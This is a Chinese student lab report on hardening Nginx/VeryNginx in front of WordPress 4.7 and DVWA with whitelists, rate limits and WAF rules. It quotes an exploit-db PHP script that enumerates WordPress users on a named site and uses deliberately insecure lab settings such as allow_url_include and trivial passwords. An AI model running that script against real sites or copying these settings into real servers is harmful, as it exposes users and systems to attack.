


# 实验5：Web服务器

------

## 实验环境

- VirtualBox 6.1.16
- Ubuntu 20.04.02 Server 64bit
- Nginx
- VeryNginx
- WordPress 4.7
- Damn Vulnerable Web Application (DVWA)

## 实验要求

### 1. 基本要求

- 在一台主机（虚拟机）上同时配置**Nginx**和**VeryNginx**
  - VeryNginx作为本次实验的Web App的反向代理服务器和WAF
  - PHP-FPM进程的反向代理配置在nginx服务器上，VeryNginx服务器不直接配置Web站点服务
- 使用**Wordpress**搭建的站点对外提供访问的地址为： http://wp.sec.cuc.edu.cn
- 使用**Damn Vulnerable Web Application (DVWA)**搭建的站点对外提供访问的地址为： http://dvwa.sec.cuc.edu.cn

### 2. 安全加固要求

- 使用IP地址方式均无法访问上述任意站点，并向访客展示自定义的**友好错误提示信息页面-1**
- Damn Vulnerable Web Application (DVWA)只允许白名单上的访客来源IP，其他来源的IP访问均向访客展示自定义的**友好错误提示信息页面-2**
- 在不升级Wordpress版本的情况下，通过定制VeryNginx的访问控制策略规则，热修复WordPress < 4.7.1 - Username Enumeration
- 通过配置VeryNginx的Filter规则实现对Damn Vulnerable Web Application (DVWA)的SQL注入实验在低安全等级条件下进行防护

### 3. VeryNginx配置要求

- VeryNginx的Web管理页面仅允许白名单上的访客来源IP，其他来源的IP访问均向访客展示自定义的**友好错误提示信息页面-3**

- 通过定制VeryNginx的访问控制策略规则实现：

  - 限制DVWA站点的单IP访问速率为每秒请求数 < 50

  - 限制Wordpress站点的单IP访问速率为每秒请求数 < 20

  - 超过访问频率限制的请求直接返回自定义**错误提示信息页面-4**

  - 禁止curl访问

## 实验内容	

### 1. 安装配置

在安装配置之前，先更改主机hosts文件

```shell
#hosts文件路径
C:\Windows\System32\drivers\etc

#添加以下IP地址和域名
192.168.56.101 vn.sec.cuc.edu.cn
192.168.56.101 wp.sec.cuc.edu.cn
192.168.56.101 dvwa.sec.cuc.edu.cn
```

#### Nginx

安装：

```shell
sudo apt install nginx
```

Nginx配置文件所在路径：

```shell
/etc/nginx/sites-enabled/default
```

修改监听端口：

```shell
sudo vim /etc/nginx/sites-enabled/default
```


启动Nginx：

```shell
#启动
sudo nginx

#停止Nginx进程
sudo nginx -s stop
```

#### VeryNginx

提前安装库：

```shell
# zlib
sudo apt-get install zlib1g-dev
# pcre
sudo apt-get update 
sudo apt-get install libpcre3 libpcre3-dev
# gcc 
sudo apt install gcc
# make
sudo apt install make
# penssl library
sudo apt install libssl-dev
```

克隆 VeryNginx 仓库到本地：

```shell
git clone https://github.com/alexazhou/VeryNginx.git
```

进入仓库目录：

```shell
cd /opt
cd verynginx
```

一键安装 VeryNginx 和 以及依赖的 OpenResty：

```shell
sudo python install.py install
```

启动VeryNginx：

```shell
#启动服务
sudo /opt/verynginx/openresty/nginx/sbin/nginx
```

修改配置文件：

```shell
sudo vim /opt/verynginx/openresty/nginx/conf/nginx.conf
```


通过主机的浏览器访问管理面板来查看状态

- 管理面板地址为：`http://192.168.56.101/verynginx/index.html`


- 成功登入：


#### WordPress

安装mysql：

```shell
sudo apt update
sudo apt install mysql-server
sudo systemctl start mysql.service #启动数据库
```

创建数据库和数据库用户：

```mysql
#登录
sudo mysql
#创建数据库
CREATE DATABASE wordpress DEFAULT CHARACTER SET utf8 COLLATE utf8_unicode_ci;
#创建用户
CREATE USER 'Aweiwei'@'localhost' IDENTIFIED BY 'password';
#授予该用户对 wordpress 数据库的所有权限
GRANT ALL ON wordpress.* TO 'Aweiwei'@'localhost';
#刷新这些更改的权限以立即生效
FLUSH PRIVILEGES;
#退出mysql
EXIT;
```


配置 PHP 以使用 WordPress 插件：

```shell
#更新和安装必要的扩展
sudo apt update
sudo apt install php php-curl php-gd php-mbstring php-xml php-xmlrpc php-soap php-intl php-zip
```

安装：

```shell
# 下载安装包
sudo wget https://wordpress.org/wordpress-4.7.zip

# 解压
sudo apt install p7zip-full
7z x wordpress-4.7.zip

# 将解压后的wordpress移至指定路径
sudo mkdir /var/www/html/wp.sec.cuc.edu.cn
sudo mv wordpress /var/www/html/wp.sec.cuc.edu.cn
```

修改wp-config-sample中的内容，并更名为wp-config：

```shell
sudo vim wp-config-sample.php
mv wp-config-sample.php wp-config.php
```

配置文件内容如下：

```shell
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'Aweiwei');

/** MySQL database password */
define('DB_PASSWORD', 'password');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');
```

在`/etc/nginx/sites-enabled`路径下新建文件`wp.sec.cuc.edu.cn`，添加以下内容：

```shell
server {
    listen 8081 default_server;
    listen [::]:8081 default_server;

    root /var/www/html/wp.sec.cuc.edu.cn;
    index index.php index.html index.htm index.nginx-debian.html;
    server_name wp.sec.cuc.edu.cn;

    location / {
        #try_files $uri $uri/ =404;
        try_files $uri $uri/ /index.php$is_args$args;
    }

    location ~ \.php$ {
        include snippets/fastcgi-php.conf;
        fastcgi_pass unix:/var/run/php/php7.4-fpm.sock;
    }

    location ~ /\.ht {
        deny all;
    }
}
```

创建软链接：

```shell
sudo ln -s /etc/nginx/sites-available/wp.sec.cuc.edu.cn /etc/nginx/sites-enabled/
```

测试并重启Nginx服务

```shell
sudo nginx -t
systemctl restart nginx.service
```

登录wordpress：

```shell
wp.sec.cuc.edu.cn/wordpress/wp-admin/
```


#### DVWA

安装

```shell
# 下载
git clone https://github.com/digininja/DVWA.git
# 建立目录
sudo mkdir /var/www/html/dvwa.sec.cuc.edu.cn
# 移动文件夹内容至该目录下
sudo mv DVWA/* /var/www/html/dvwa.sec.cuc.edu.cn
```

在MySQL中建立DVMA数据库

```mysql
create database dvwa;

create user dvwa@localhost identified by 'p@ssw0rd';

grant all on dvwa.* to dvwa@localhost;

flush privileges;

exit;
```

配置php

- 将`/var/www/html/dvwa.sec.cuc.edu.cn/config/`目录下的`config.inc.php.dist`文件改名为`config.inc.php`
- 并检查配置文件是否正确

```shell
sudo mv config.inc.php.dist config.inc.php
```

- 修改`php.ini`文件

```shell
sudo vim /etc/php/7.4/fpm/php.ini 
# 修改内容
allow_url_include = on
allow_url_fopen = on
safe_mode = off
display_errors = off
```

- 重启php

```shell
systemctl restart php7.4-fpm.service
```

- 将所有权分配给`www-data`用户和组

```shell
sudo chown -R www-data.www-data /var/www/html/dvwa.sec.cuc.edu.cn
```

- 配置服务器

```shell
sudo vim /etc/nginx/sites-available/dvwa.sec.cuc.edu.cn

# 写入
server {
    listen 8080 default_server;
    listen [::]:8080 default_server;
	
    root /var/www/html/dvwa.sec.cuc.edu.cn;
    index index.php index.html index.htm index.nginx-debian.html;
    server_name dvwa.sec.cuc.edu.cn;

    location / {
        #try_files $uri $uri/ =404;
        try_files $uri $uri/ /index.php$is_args$args;  
    }

    location ~ \.php$ {
        include snippets/fastcgi-php.conf;
        fastcgi_pass unix:/var/run/php/php7.4-fpm.sock;
    }

    location ~ /\.ht {
        deny all;
    }
}
```

- 创建软链接

```shell
sudo ln -s /etc/nginx/sites-available/dvwa.sec.cuc.edu.cn /etc/nginx/sites-enabled/
```

- 测试并重启Nginx服务

```shell
sudo nginx -t
systemctl restart nginx.service
```


### 2. 使用VeryNginx反向代理WordPress和DVMA

#### VeryNginx的自定义行为介绍

> 自定义行为包含两部分， Matcher 和 Action 。 Matcher 用来对请求进行匹配， Action 为要执行的动作
>
> 这样的优势在于把所有的前置判断整合在Matcher里一起来实现了，使复杂(组合)规则的实现变成了可能
>
> **Matcher**
>
> 一个 Matcher 用来判断一个 Http 请求是否符合指定的条件， 一个 Matcher 可以包含一个或者多个约束条件，目前支持以下几种约束：
>
> - Client IP
> - Host
> - UserAgent
> - URI
> - Referer
> - Request Args
>
> 当一个请求没有违反 Matcher 中包含的全部条件时，即命中了这个 Matcher
>
> **Action**
>
> 每个 Action 会引用一个 Matcher ，当 Matcher 命中时， Action 会被执行
>
> 目前已经实现了以下 Action
>
> - **Scheme Lock** 将访问协议锁定为 Https 或者 Http
> - **Redirect** 对请求进行重定向
> - **URI Rewrite** 对请求的 URI 进行内部重写
> - **Browser Verify** 通过set-cookies 和 js 验证客户端是否为浏览器，并拦截非浏览器流量。本功能可能会阻拦搜索引擎爬虫，建议仅在被攻击时开启，或者针对搜索引擎编写特别的规则。
> - **Frequency Limit** 访问频率限制
> - **Filter(waf)** 过滤器
>
> 因为 Matcher 可以对请求进行细致的匹配，所以结合 Filter Action，就可以实现一个高级的WAF，可以利用Matcher中所有的条件来对请求进行过滤，并返回指定状态码
>
> VeryNginx 预置了常用的过滤规则，可以在一定程度上阻止常见的 SQL 注入、Git 及 SVN 文件泄露、目录遍历攻击，并拦截常见的扫描工具。
>
> **Backend**
>
> 每个 Backend 会引用一个 Matcher ，当 Matcher 命中时， 请求会通过 Backend 进行处理
>
> 目前已经实现了以下 Backend
>
> - **Proxy Pass** 将请求反向代理到其它服务器
> - **Static File** 使用本地文件处理请求

#### 反向代理设置过程：


### 3. 安全加固要求

#### 3.1 使用IP地址方式均无法访问上述任意站点，并向访客展示自定义的**友好错误提示信息页面-1**

在**Request Matcher**下添加规则，利用正则表达式筛选出以IP地址形式访问网页的主机名：


在**Response**下添加以下规则，返回友好错误提示页面-1：


通过IP地址访问verynginx：


#### 3.2 Damn Vulnerable Web Application (DVWA)只允许白名单上的访客来源IP，其他来源的IP访问均向访客展示自定义的友好错误提示信息页面-2

在**Request Matcher**下添加以下规则，配置白名单`192.168.56.1`，即本机IP地址


在**Response**下添加添加以下规则，返回友好错误提示页面-2：



**Filter**:


测试dvwa网站，在本机能正常登入dvwa：


#### 3.3 在不升级Wordpress版本的情况下，通过定制VeryNginx的访问控制策略规则，热修复WordPress < 4.7.1 - Username Enumeration

**Wordpress Username Enumeration 漏洞介绍（CVE-2017-5487）：**

> 近日 exploit-db 上公布了一个 Wordpress < 4.7.1 的用户名枚举漏洞：https://www.exploit-db.com/exploits/41497/ ，实际上该漏洞于1月14号就已经在互联网上公布，并赋予了 [CVE-2017-5487](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5487)。利用该漏洞攻击者可以在未授权状态下获取之前发布过文章的用户的用户名、id 等信息。

exploit-db 上给出的 exp ：

> ```php
> #!usr/bin/php
> <?php
> 
> #Author: Mateus a.k.a Dctor
> #fb: fb.com/hatbashbr/
> #E-mail: dctoralves@protonmail.ch
> #Site: https://mateuslino.tk 
> header ('Content-type: text/html; charset=UTF-8');
> 
> 
> $url= "https://bucaneiras.org/";
> $payload="wp-json/wp/v2/users/";
> $urli = file_get_contents($url.$payload);
> $json = json_decode($urli, true);
> if($json){
>     echo "*-----------------------------*\n";
> foreach($json as $users){
>     echo "[*] ID :  |" .$users['id']     ."|\n";
>     echo "[*] Name: |" .$users['name']   ."|\n";
>     echo "[*] User :|" .$users['slug']   ."|\n";
>     echo "\n";
> }echo "*-----------------------------*";} 
> else{echo "[*] No user";}
> 
> 
> ?>
> ```

可以看到它是利用 REST API 来获取用户的信息，对应的文件是`wp-includes/rest-api/endpoints/class-wp-rest-users-controller.php`，接下来使用 exp 并且开启动态调试。根据查看`get_items_permissions_check`函数、`get_items`函数，可见该 API 可以获取的用户必须满足以下几个条件：

- 发表过文章
- 文章的当前状态是`publish`
- 文章类型是`post`、`page`、`attachment`其中之一

根据Wordpress官方给出的补丁**制定安全策略**：

- 在**Basic**中添加匹配规则


- 在**Custom Action**中添加过滤条件


#### 3.4 通过配置VeryNginx的Filter规则实现对Damn Vulnerable Web Application (DVWA)的SQL注入实验在低安全等级条件下进行防护

在dvwa中将`security level`修改为`low`：


在**Request Matcher**下添加以下规则：



**Response**：


**Filter**：


### 4. VeryNginx配置要求

#### 4.1 VeryNginx的Web管理页面仅允许白名单上的访客来源IP，其他来源的IP访问均向访客展示自定义的**友好错误提示信息页面-3**

在**Request Matcher**下添加规则,配置白名单`192.168.56.1`，即本机IP地址


在**Response**下添加以下规则，返回友好错误提示页面-3：


**Filter**:


根据白名单信息，本机能正常访问VeryNginx

#### 4.2 通过定制VeryNginx的访问控制策略规则实现以下内容

（1）限制DVWA站点的单IP访问速率为每秒请求数 < 50

（2）限制Wordpress站点的单IP访问速率为每秒请求数 < 20

（3）超过访问频率限制的请求直接返回自定义**错误提示信息页面-4**

- 设置**Response**：


- 设置频率限制**Frequency Limit**


- 使用压力测试工具分别访问`wp.sec.cuc.edu.cn`和`dvwa.sec.cuc.edu.cn`200次，分别在第180次和第150次失败，拦截生效

（4）禁止curl访问

- **Matcher**


- **Response**


- **Filter**


## 实验中遇到的问题及解决方法

#### 1. 安装Nginx时出现异常

**异常**：`Waiting for cache lock: Could not get lock /var/lib/dpkg/lock-frontend. It is held by process 118881`

**说明**：通过报错信息，我们可以看到有另一个程序（进程）正在锁定 `/var/lib/dpkg/lock-frontend` 文件，`dpkg` 表示 `Debian` 包管理器。经过查阅资料，这个问题发生在程序刚刚更新 Ubuntu 以安装新软件时。锁定机制的目的是避免 Ubuntu 系统数据被两个或多个程序同时更改而导致不一致的错误。

**解决方法**：

- 执行命令`ps -ef | grep unattended-upgr`查看锁定过程的详细信息。
- 如果锁定进程名称中包含 `tex` 类似 `apt.systemd.daily update`，只需要等待程序退出后再一次安装

####  2. 安装VeryNginx遇到的问题

**2.1 安装VeryNginx时需要注意的坑**

**问题**：安装`libssl`时失败 

**说明**：在[ToubleShooting](https://github.com/alexazhou/VeryNginx/wiki/Trouble-Shooting)中作者提到在执行命令`python install.py install`前需执行`apt-get install libssl libssl-dev`命令，根据黄玮老师在视频中的提醒，这里作者给出的命令存在错误

**解决方法**：

- 使用命令`apt-cache search libssl`查找包名，找到`libssl-dev`包属性为`development files`
- 执行`sudo apt install libssl-dev`命令

**2.2 由于少装了包导致安装失败**

第一次安装失败，提示缺少`make`：

```shell
No gmake nor make found in PATH.
*** The installing stopped because something was wrong
```

第二次安装失败，提示缺少`PCRE`：

```shell
./configure: error: the HTTP rewrite module requires the PCRE library.
You can either disable the module by using --without-http_rewrite_module
option, or install the PCRE library into the system, or build the PCRE library
statically from the source with nginx by using --with-pcre=<path> option.

ERROR: failed to run command: sh ./configure --prefix=/opt/verynginx/openresty/nginx \...
*** The installing stopped because something was wrong
```

因此除了文档中提到的要装的库以外，还需安装别的一些库：

```shell
#安装python前对缺失的库补充安装
# zlib
sudo apt-get install zlib1g-dev
# pcre
sudo apt-get update 
sudo apt-get install libpcre3 libpcre3-dev
# make
sudo apt install make
```

#### 3. 访问WordPress时出现404页面


错误原因：

- 没有在`/etc/nginx/sites-enabled`路径下新建文件`wp.sec.cuc.edu.cn`，写入相关配置信息，并建立软链接
- 配置信息错误，`root /var/www/html/wp.sec.cuc.edu.cn;`写成了`root /var/www/html/wp.sec.cuc.edu.cn/wordpress;`

#### 4. 忘记WordPress登录密码

- 首先尝试通过邮箱找回密码，但出现报错`The email could not be sent. Possible reason: your host may have disabled the mail() function.`
- 尝试删除并重新写入`wp-config.php`文件，但是依旧无法重新安装
- 尝试修改`wp.sec.cuc.edu.cn`文件中的端口号，重启nginx后还是只能访问之前的端口号，放弃该方法
- 最后在`mysql`中删除之前使用的数据库并重新创建数据库与用户，才得以重新安装`WordPress`

## 参考资料

- [Question: Could not get lock /var/lib/dpkg/lock-frontend. It is held by ...](https://www.dev2qa.com/how-to-fix-the-error-waiting-for-cache-lock-could-not-get-lock-var-lib-dpkg-lock-frontend-it-is-held-by-process-13083-unattended-upgr/)
- [VeryNginx](https://github.com/alexazhou/VeryNginx)
- [How to install Wordpress on Ubuntu 20.04 ](https://www.cloudsigma.com/how-to-install-wordpress-with-lamp-on-ubuntu-20-04/)
- [How To Install MySQL on Ubuntu 20.04 | DigitalOcean](https://www.digitalocean.com/community/tutorials/how-to-install-mysql-on-ubuntu-20-04)
- [How do I setup DVWA on Ubuntu ](https://askubuntu.com/questions/956268/how-do-i-setup-dvwa-on-ubuntu)
- [七种方式解决WordPress忘记后台密码——墨涩网 - 云+社区 ...](https://cloud.tencent.com/developer/news/399413)
- [WordPress Core < 4.7.1 - Username Enumeration](https://www.exploit-db.com/exploits/41497)
- [Wordpress Username Enumeration 漏洞分析（CVE-2017 ...](https://paper.seebug.org/239/)

